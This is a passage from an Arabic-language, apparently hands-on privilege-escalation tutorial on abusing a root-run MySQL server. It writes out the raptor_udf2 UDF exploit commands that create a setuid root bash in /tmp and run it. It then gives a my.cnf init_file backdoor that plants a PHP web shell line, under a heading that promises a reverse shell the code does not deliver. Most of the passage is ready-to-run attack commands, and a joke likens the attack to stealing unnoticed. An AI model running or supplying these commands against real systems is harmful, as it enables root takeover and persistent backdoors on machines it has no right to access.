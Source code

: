 2️⃣ الدخول إلى MySQL وتحميل المكتبة

```bash
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

3️⃣ تشغيل أمر النظام لإنشاء **Root Shell**

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

4️⃣ تشغيل الـ **Root Shell**:

```bash
/tmp/rootbash -p
```

💡 **مثال طريف:**  
**إنت دخلت محل فول وطعمية، شفت الثلاجة مفتوحة، روحت واخد رغيف فول من غير ما حد يحس! 😂**

---

# **🔴 الطريقة 2: استغلال my.cnf لتشغيل أوامر Root عند إعادة تشغيل MySQL**

### **📌 الفكرة**

- **my.cnf** هو ملف الإعدادات بتاع MySQL، ولو عدلناه، ممكن نخليه يشغل **أوامر ضارة** عند تشغيل الخدمة!
- لو MySQL بيشتغل كـ **Root**، يبقى أي أمر هنضيفه هنا هيتنفذ بصلاحيات **Root**.

### **📌 تنفيذ الهجوم خطوة بخطوة**

1️⃣ تعديل الملف بحيث يشغل **Reverse Shell** عند تشغيل الخدمة

```bash
echo '[mysqld]' >> /etc/mysql/my.cnf
echo 'init_file=/tmp/backdoor.sql' >> /etc/mysql/my.cnf
```

2️⃣ إنشاء ملف **Backdoor SQL** اللي هينفذ الأوامر

```bash
echo 'CREATE TABLE pwn(line blob);' > /tmp/backdoor.sql
echo 'INSERT INTO mysql.pwn VALUES (\'<?php system($_GET["cmd"]); ?>\');' >> /tmp/backdoor.sql
```

3️⃣ إعادة تشغيل MySQL

```bash
systemctl restart mysql
```

